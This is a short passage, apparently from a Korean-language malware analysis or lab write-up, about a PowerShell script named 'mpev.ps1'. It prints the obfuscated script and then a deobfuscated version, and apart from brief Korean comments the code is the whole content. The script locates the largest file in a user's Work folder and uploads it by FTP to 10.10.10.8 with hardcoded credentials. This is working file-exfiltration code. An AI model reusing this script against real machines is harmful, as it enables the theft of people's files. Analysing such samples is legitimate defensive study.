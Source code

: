 ftp를 하는 쉘코드인 것으로 보인다.

<br>

**mpev.ps1**

```powershell
$path="C:\Users\kusti\Desktop\Work";
$server_ip="ftp://10.10.10.8/";
$id="send001";
$passwd="vkdlftjqj123";
$tymqfsdplx="/";

$vsjnriobex=Get-ChildItem -Path $path | Sort-Object Length -Descending | Select-Object -First 1;
if($vsjnriobex)
{
    $bhvkunqarl=$vsjnriobex.FullName;
    $dywrutljzc="$server_ip$tymqfsdplx/$($vsjnriobex.Name)";
    $reokcjfzxw=New-Object System.Net.WebClient;
    $reokcjfzxw.Credentials=New-Object System.Net.NetworkCredential($id,$passwd);
    $reokcjfzxw.UploadFile($dywrutljzc,$bhvkunqarl)
    
}
else{
    Write-Host "."
    }

```

<br>

난독화를 해제하면 다음과 같다.

<br>

```powershell
$path="C:\Users\kusti\Desktop\Work";
$server_ip="ftp://10.10.10.8/";
$id="send001";
$passwd="vkdlftjqj123";

$biggest_file=Get-ChildItem -Path $path | Sort-Object Length -Descending | Select-Object -First 1;
if($biggest_file)
{
    $target_fileName=$biggest_file.FullName;
    $uri="$server_ip//$($biggest_file.Name)";
    $ftp_initialize=New-Object System.Net.WebClient;
    $ftp_initialize.Credentials=New-Object System.Net.NetworkCredential($id,$passwd);
    $ftp_initialize.UploadFile($uri,$target_fileName)
    
}
else{
    Write-Host "."
    }
```

